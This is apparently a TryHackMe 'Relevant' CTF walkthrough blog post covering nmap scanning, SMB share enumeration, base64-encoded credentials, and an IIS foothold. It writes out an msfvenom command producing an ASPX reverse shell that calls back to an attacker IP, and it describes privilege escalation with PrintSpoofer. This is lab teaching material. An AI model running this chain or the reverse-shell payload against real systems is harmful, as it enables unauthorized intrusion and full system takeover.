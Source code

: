 ```yaml
---
title: Tryhackme - Relevant
author: Rhovelionz
date: 2022-09-25 07:21:00 +0700
categories: [Tryhackme]
tags: [Samba, Smb, Iis, Psexec, PrintSpoofer, Apppool, test]
image: /assets/img/Post/Relevant.jpeg

---
```


>   **Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using, or in any other way utilizing these materials.These materials are for educational and research purposes only.**


# **<span style='color:#ff5555'>Summary</span>**
***
- SMB share has access to write
- Validate users
- Transfer payload to the SMB share
- Found SEimpersonate token is enabled
- Exploit it with PrintSpoofer


## **<span style='color:#ff5555'>Port Scan</span>**
***

```terminal
root@rhovelionz:~/THM/Relevant# nmap -A -T4 10.10.213.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-25 11:01 WIB
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 12:41 (0:00:30 remaining)
Nmap scan report for 10.10.213.110
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE        VERSION
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:11:01+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```terminal
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:19:15+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-09-19T07:19:56+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

## **<span style='color:#ff5555'>Website</span>**
***

The relevant website only shows default IIS windows server's page.

![]({{ "/images/thm/Relevant/website.png" | relative_url }})

## **<span style='color:#ff5555'>Fuzzing</span>**
***

Running `gobuster` on the website with unfortunate output.

![]({{ "/images/thm/Relevant/gobuster1.png" | relative_url }})

Since it's windows machine, we need to enumerate SMB based on nmap's result.

## **<span style='color:#ff5555'>Enumerating SMB</span>**
***

Using SMBClient to open SMB shares on the server.

![]({{ "/images/thm/Relevant/smb1.png" | relative_url }})

It shows the **nt4wrksv** share enabled, the next step is to connect with **nt4wrksv** and find out what we can get from it.

![]({{ "/images/thm/Relevant/smb2.png" | relative_url }})

Download the password.txt file stored in it.

The file consists of two base64 encoded credentials

![]({{ "/images/thm/Relevant/encoded1.png" | relative_url }})

After decoding the base64, it reveals credentials for Bob and Bill

![]({{ "/images/thm/Relevant/cred1.png" | relative_url }})

Having these credentials, we can attempt to use it to the target, using **psexec** to check which users is valid.

![]({{ "/images/thm/Relevant/bob.png" | relative_url }})

![]({{ "/images/thm/Relevant/bill.png" | relative_url }})


## **<span style='color:#ff5555'>Special Port</span>**
***

Based on nmap's scan, we also have open port on 49663 which running **Microsoft HTTPAPI httpd**

Running `gobuster` against port 49663 to check subdirectories in it.

![]({{ "/images/thm/Relevant/gobuster2.png" | relative_url }})

To validate that we are on the right path, try add passwords.txt that we found on SMB before.

![]({{ "/images/thm/Relevant/passwordstxt.png" | relative_url }})

It shows the same file that we found in SMB share, that means anything we put on SMB shares because we have write access, and knowing that IIS usually accept an aspx file, we need to craft it and we can download it on the webserver and gain access.

Craft the payload:
```terminal
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.62.230 LPORT=1337 -f aspx -o rhovelionz.aspx
```
Upload it to the smb share

![]({{ "/images/thm/Relevant/uploadtosmbshare.png" | relative_url }})

We need to start netcat listener and open the link on the browser, and we are in.

![]({{ "/images/thm/Relevant/netcat2.png" | relative_url }})

## **<span style='color:#ff5555'>Escalate to Administrator</span>**
***

There is an exploit to abuse SeImpersonatePrivilege token that is enabled, that means token impersonation could be used to escalate to the **administrator**.

![]({{ "/images/thm/Relevant/seimpersonate.png" | relative_url }})

We will be using `PrintSpoofer`, download it and tranfer the exploit file via SMB share.

![]({{ "/images/thm/Relevant/uploadprintspoofer.png" | relative_url }})

Executing the exploit with command with -i to interact with new process and -c cmd to run CMD after execution.

![]({{ "/images/thm/Relevant/execexploit.png" | relative_url }})

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})

> [Relevant - Tryhackme](https://tryhackme.com/room/relevant)

